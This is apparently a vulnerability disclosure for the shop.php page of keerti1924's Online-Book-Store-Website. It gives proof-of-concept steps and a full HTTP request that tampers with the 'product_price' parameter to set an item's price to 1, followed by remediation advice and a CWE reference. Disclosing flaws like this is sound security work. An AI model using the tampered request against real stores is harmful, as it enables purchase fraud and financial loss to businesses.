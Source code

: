 # keerti1924 / Online-Book-Store-Website - shop.php Business Logic Flaw

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The shop.php script in keerti1924's Online-Book-Store-Website is vulnerable to a business logic flaw. By manipulating the 'product_price' parameter during the purchase process, authenticated users can change the price of items in their shopping cart to an arbitrary value, potentially leading to financial losses for the business.

## Proof of Concept
Step 1: Login as a normal user
Step 2: Add a book to the cart and intercept the request.
Step 3: Modify the value of the 'product_price' parameter to the desired price.
Step 4: Observe that the item's price in the cart has been changed accordingly.

## HTTP Request Example
```http request
POST /shop.php HTTP/2
Host: [REDACTED]
Cookie: PHPSESSID=[REDACTED]
Content-Length: 112
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

product_quantity=1&product_name=The+Bookshop&product_price=1&product_image=book+shop.jpg&add_to_cart=Add+to+cart
```

### Proof with Screenshot
![Screenshot](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20Online-Book-Store-Website/Business%20Logic/Business%20Logic%20shop.php%20proof%20.png?raw=true)

## Remidiation
To mitigate this issue, ensure that all price-related calculations are performed and verified on the server-side. Implement proper access controls and validation mechanisms to prevent unauthorized modifications to prices or other critical parameters during the purchase process.

## CWE
[CWE-840: Business Logic Errors ](https://cwe.mitre.org/data/definitions/840.html)